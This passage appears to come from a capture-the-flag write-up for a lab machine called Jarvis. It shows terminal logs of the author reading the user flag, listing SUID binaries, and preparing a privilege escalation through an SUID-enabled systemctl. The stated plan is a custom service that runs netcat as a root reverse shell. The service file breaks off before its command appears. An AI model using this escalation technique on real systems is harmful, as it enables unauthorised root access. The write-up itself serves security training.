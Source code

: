 
``` bash
pepper@jarvis:/var/www/Admin-Utilities$ id
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
pepper@jarvis:/var/www/Admin-Utilities$ cd /home/pepper/
pepper@jarvis:~$ ls -al
total 32
drwxr-xr-x 4 pepper pepper 4096 Mar  5  2019 .
drwxr-xr-x 3 root   root   4096 Mar  2  2019 ..
lrwxrwxrwx 1 root   root      9 Mar  4  2019 .bash_history -> /dev/null
-rw-r--r-- 1 pepper pepper  220 Mar  2  2019 .bash_logout
-rw-r--r-- 1 pepper pepper 3526 Mar  2  2019 .bashrc
drwxr-xr-x 2 pepper pepper 4096 Mar  2  2019 .nano
-rw-r--r-- 1 pepper pepper  675 Mar  2  2019 .profile
drwxr-xr-x 3 pepper pepper 4096 Mar  4  2019 Web
-r--r----- 1 root   pepper   33 Mar  5  2019 user.txt
pepper@jarvis:~$ cat user.txt
2afa36**************************
```
Now lets go look for ways to get to `root`. After quickly transfering `LinEnum.sh` and running the same, we observe this:

``` bash
[-] SUID files:
-rwsr-xr-x 1 root root 30800 Aug 21  2018 /bin/fusermount
-rwsr-xr-x 1 root root 44304 Mar  7  2018 /bin/mount
-rwsr-xr-x 1 root root 61240 Nov 10  2016 /bin/ping
-rwsr-x--- 1 root pepper 174520 Feb 17  2019 /bin/systemctl
-rwsr-xr-x 1 root root 31720 Mar  7  2018 /bin/umount
-rwsr-xr-x 1 root root 40536 May 17  2017 /bin/su
-rwsr-xr-x 1 root root 40312 May 17  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 59680 May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 75792 May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 40504 May 17  2017 /usr/bin/chsh
-rwsr-xr-x 1 root root 140944 Jun  5  2017 /usr/bin/sudo
-rwsr-xr-x 1 root root 50040 May 17  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 440728 Mar  1  2019 /usr/lib/openssh/ssh-keysign
-rwsr-xr-- 1 root messagebus 42992 Mar  2  2018 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
```

Seeing that `SUID` bit is set for `systemctl` and googling about it, we find [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/).
After spending sometime with it, I could figure out how to create a service and run it using the SUID bit enabled systemctl, which in-turn would run the command within the service as root.
Hence, I decided to create a service that runs netcat to give a reverse shell as root.

``` bash
pepper@jarvis:~$ ls -al
total 212
drwxr-xr-x 4 pepper pepper   4096 Nov  8 03:24 .
drwxr-xr-x 3 root   root     4096 Mar  2  2019 ..
lrwxrwxrwx 1 root   root        9 Mar  4  2019 .bash_history -> /dev/null
-rw-r--r-- 1 pepper pepper    220 Mar  2  2019 .bash_logout
-rw-r--r-- 1 pepper pepper   3526 Mar  2  2019 .bashrc
drwxr-xr-x 2 pepper pepper   4096 Mar  2  2019 .nano
-rw-r--r-- 1 pepper pepper    675 Mar  2  2019 .profile
drwxr-xr-x 3 pepper pepper   4096 Mar  4  2019 Web
-rw-r--r-- 1 pepper pepper     32 Nov  8 03:24 exploit
-rwxr-xr-x 1 pepper pepper    117 Nov  8 03:32 exploit.service
-rwsr-s--- 1 pepper pepper 174520 Nov  8 03:22 systemctl
-r--r----- 1 root   pepper     33 Mar  5  2019 user.txt
pepper@jarvis:~$ cat exploit.service
[Unit]
Description=rootshell
[Service]
```